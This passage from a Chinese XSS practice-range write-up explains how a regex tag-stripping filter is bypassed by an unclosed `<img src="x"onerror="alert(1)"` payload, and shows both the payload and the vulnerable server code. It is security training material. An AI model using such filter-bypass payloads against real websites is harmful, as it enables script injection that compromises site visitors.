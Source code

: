 

## 0x07——利用js中语法松散的图片加载失败`<img src=""onerror=""`绕过右标签的过滤

所有标签类只让写左标签，右标签一写上去就没了

```
<img src="x"onerror="alert(1)"
```

利用js中语法松散，此处不加右标签也可以执行

![image-20220116103302205](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/02%20XSS%E9%9D%B6%E5%9C%BA.assets/image-20220116103302205.png)

```
[html]
<article><img src="x"onerror="alert(1)"</article>

[server code]
function render (input) {
  const stripTagsRe = /<\/?[^>]+>/gi

  input = input.replace(stripTagsRe, '')
  return `<article>${input}</article>`
}

```
